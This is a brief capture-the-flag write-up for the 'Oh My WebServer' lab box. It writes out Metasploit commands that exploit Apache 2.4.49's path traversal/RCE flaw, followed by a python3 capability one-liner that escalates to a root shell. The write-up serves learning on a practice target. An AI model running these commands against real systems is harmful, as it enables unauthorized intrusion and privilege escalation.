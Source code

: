 # Oh My WebServer

### Oh My WebServer
Nmap scan shows ports 22 and 80 open. Port 80 is an apache web server, version 2.4.49. This version is vulnerable to [path traversal and RCE](https://github.com/blackn0te/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution).<br />
There's also a metasploit module for this, and I used it to access the machine: <br />

    use multi/http/apache_normalize_path_rce
    set lhost MY_IP
    set rport 80
    set rhosts TARGET_IP
    set ssl false 
    run
Now that I'm on the machine, I used linpeas to enumerate the machine and it finds a capability on python3:<br />
![image](https://github.com/user-attachments/assets/a9e19bce-4d96-45a4-b020-7a9f4ea62491)<br />
There's a very good guide on [here](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how to exploit this capability.<br />
To summerize, you need to execute: `/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'`:<br />
![image](https://github.com/user-attachments/assets/d5dc1bda-53f5-4ed9-bb04-4dc83de866d2)<br />
Thus, become root! The user.txt file is inside /root:<br />
![image](https://github.com/user-attachments/assets/544be2ca-4d8e-4826-934f-5cb791d6b0ad)<br />



